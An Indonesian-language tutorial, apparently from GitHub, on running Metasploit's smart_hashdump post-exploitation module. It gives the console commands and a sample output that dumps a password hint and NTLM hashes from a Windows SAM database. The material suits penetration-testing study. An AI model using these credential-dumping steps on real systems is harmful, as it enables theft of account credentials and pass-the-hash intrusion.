 # smart_hashdump

Module `smart_hashdump` di Metasploit adalah modul `post-exploitation` untuk sistem Windows yang digunakan untuk mengekstrak hash password dari `SAM` (Security Account Manager) database pada komputer target. Modul ini bekerja setelah akses ke sistem berhasil diperoleh (misalnya via meterpreter dengan privilege SYSTEM) dan secara cerdas menyesuaikan teknik pengambilan hash berdasarkan versi Windows, lalu mengekstrak hash `NTLM` dari akun-akun lokal yang tersimpan, sehingga sangat berguna dalam tahap eskalasi hak akses atau serangan `pass-the-hash`.

## Cara Penggunaan di Metasploit

```
use post/windows/gather/smart_hashdump
set SESSION <ID>
set VERBOSE true
run
```

Hasil output-nya seperti ini:

```
[*] Running module against ADMIN-PC
[*] Hashes will be saved to the database if one is connected.
[+] Hashes will be saved in loot in JtR password file format to:
[*] /root/.msf4/loot/20250516134518_default_192.168.1.52_windows.hashes_110122.txt
[*] Dumping password hashes...
[*] Running as SYSTEM extracting hashes from registry
[*] 	Obtaining the boot key...
[*] 	Calculating the hboot key using SYSKEY 719ee74fc86782fded26e05e9802b0c9...
[*] 	Obtaining the user list and keys...
[*] 	Decrypting user keys...
[*] 	Dumping password hints...
[+] 	admin:"10101010"
[*] 	Dumping password hashes...
[+] 	Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[+] 	admin:1001:aad3b435b51404eeaad3b435b51404ee:209c6174da490caeb422f3fa5a7ae634:::
[+] 	HomeGroupUser$:1002:aad3b435b51404eeaad3b435b51404ee:afd92ce617b3210a7243ac63c8b3cf98:::
[*] Post module execution completed

```
